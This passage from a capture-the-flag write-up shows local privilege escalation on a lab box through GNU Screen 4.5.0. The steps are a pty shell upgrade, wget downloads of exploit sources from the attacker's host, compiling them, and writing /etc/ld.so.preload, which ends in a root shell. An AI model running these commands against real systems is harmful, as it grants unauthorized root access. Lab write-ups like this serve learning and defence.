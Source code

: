 But looking a the available exploit with `searchsploit` we find an interesting exploit for the
specific `screen` version on the box.
(the `sh` script is a POC using the exploit described in the `txt`).

    :::text
    searchsploit screen 4.5.0
    -------------------------------------------- ----------------------------------------
    Exploit Title                              |  Path
                                                | (/usr/share/exploitdb/)
    -------------------------------------------- ----------------------------------------
    GNU Screen 4.5.0 - Local Privilege Escalati | exploits/linux/local/41152.txt
    GNU Screen 4.5.0 - Local Privilege Escalati | exploits/linux/local/41154.sh
    -------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result

First of all we get a better reverse shell with python `python -c 'import pty; pty.spawn("/bin/sh")'`
Then we follow the commands in the `sh` script while changing the path from
`/tmp/` to `/tmp/ioio/`. Also we `wget` the `libhax.c` and `rootshell.c` which
we edited on our local system.

    :::text
    www-data@Wall:/usr/local/centreon/www$ cd /tmp/ioio
    cd /tmp/ioio
    www-data@Wall:wget http://10.10.14.169:8081/libhax.c
    wget http://10.10.14.169:8081/libhax.c
    www-data@Wall:wget http://10.10.14.169:8081/rootshell.c
    wget http://10.10.14.169:8081/rootshell.c
    www-data@Wall:/tmp/ioio$ ls
    ls
    libhax.c
    rootshell.c
    www-data@Wall:/tmp/ioio$ gcc -fPIC -shared -ldl -o /tmp/ioio/libhax.so /tmp/ioio/libhax.c
    <SNIP>
    www-data@Wall:/tmp/ioio$ gcc -o /tmp/ioio/rootshell /tmp/ioio/rootshell.c
    <SNIP>
    www-data@Wall:/tmp/ioio$ cd /etc
    cd /etc
    www-data@Wall:/etc$ umask 000
    umask 000
    www-data@Wall:/etc$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/ioio/libhax.so" 
    < ld.so.preload echo -ne  "\x0a/tmp/ioio/libhax.so" 
    www-data@Wall:/etc$ /bin/screen-4.5.0 -ls
    /bin/screen-4.5.0 -ls
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.

    www-data@Wall:/etc$ /tmp/ioio/rootshell
    /tmp/ioio/rootshell
    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
